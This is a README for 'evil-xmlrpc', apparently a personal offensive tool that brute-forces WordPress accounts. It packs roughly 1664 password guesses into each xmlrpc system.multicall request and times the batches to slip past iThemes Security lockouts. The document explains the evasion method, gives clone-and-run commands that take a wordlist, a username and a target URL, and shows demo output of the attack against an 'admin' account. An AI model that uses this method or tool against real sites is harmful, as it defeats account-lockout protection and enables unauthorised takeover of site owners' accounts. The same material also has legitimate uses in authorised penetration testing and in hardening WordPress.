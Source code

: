 # evil-xmlrpc
evil-xmlrpc is a tool that I created to help me bruteforce wordpress user accounts using xmlrpc.php while bypassing iThemes Security preventing lockouts

While testing a specific target I noticed that xmlrpc was enabled, but after sending 5 requests against a discovered user account, I was locked out of the site. After waiting till the lockout period ended I saw that iThemes Security Plugin was being used on the site. I soon noticed that I was locked out after sending 4 requests. Regular bruteforce methods weren't going to work here. Later I discovered that you could send many login attempt via 1 single request using "system.multicall". In my particular situation I could only send 1666 login attempts in a single request (may be different for your target). So I made this script to be able to take a password list (of about 1 million words) and send it off in groups of 1664 (Initially was 1666 in the script, but cut it back by 2 for breathing room). 

For example: 
* Request 1 (Sends lines 1-1666 of wordlist) 
* Request 2 (Sends lines 1667-3332 of wordlist)
* Request 3 (Sends lines 3333-4998 of wordlist)
* Request 4 (Sends lines 4999-6664 of wordlist)

Before sending the 5th request in order to prevent being locked out of the site, stop for 5 mins and then continue going down the list.

## Install 

```sh
git clone https://github.com/0xApt/evil-xmlrpc.git
cd evil-xmlrpc
pip3 install -r requirements.txt
python3 evil-xmlrpc.py <passwordlist> <username> <https://www.examplesite.com>
```

## Demo output

```sh

root@user:~ python3 main.py 100000-pass-wordlist.txt admin https://www.examplesite.com                                                                                                                      

                 ██  ▀██                        ▀██
  ▄▄▄▄  ▄▄▄▄ ▄▄▄ ▄▄▄   ██     ▄▄▄ ▄▄▄ ▄▄ ▄▄ ▄▄    ██  ▄▄▄ ▄▄  ▄▄▄ ▄▄▄    ▄▄▄▄
▄█▄▄▄██  ▀█▄  █   ██   ██      ▀█▄▄▀   ██ ██ ██   ██   ██▀ ▀▀  ██▀  ██ ▄█   ▀▀
██        ▀█▄█    ██   ██       ▄█▄    ██ ██ ██   ██   ██      ██    █ ██
 ▀█▄▄▄▀    ▀█    ▄██▄ ▄██▄    ▄█  ██▄ ▄██ ██ ██▄ ▄██▄ ▄██▄     ██▄▄▄▀   ▀█▄▄▄▀
                                                               ██
                                                              ▀▀▀▀
                                By 0xapt

[*] Checking if site is vulnerable..
[*] Site is vulnerable!
[*] File has 100000 lines

[*] Sending Payload.. 
[*] Attempt: 1 
[*] Target User: admin
[*] Using lines 0 to 1664 from password list
[*] Content Length: 356283
[*] Interesting.. Saving response..
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 2 
[*] Target User: admin
[*] Using lines 1665 to 3328 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 3 
[*] Target User: admin
[*] Using lines 3329 to 4992 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 4 
[*] Target User: admin
[*] Using lines 4993 to 6656 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Waiting 5 mins to prevent lockout...
```
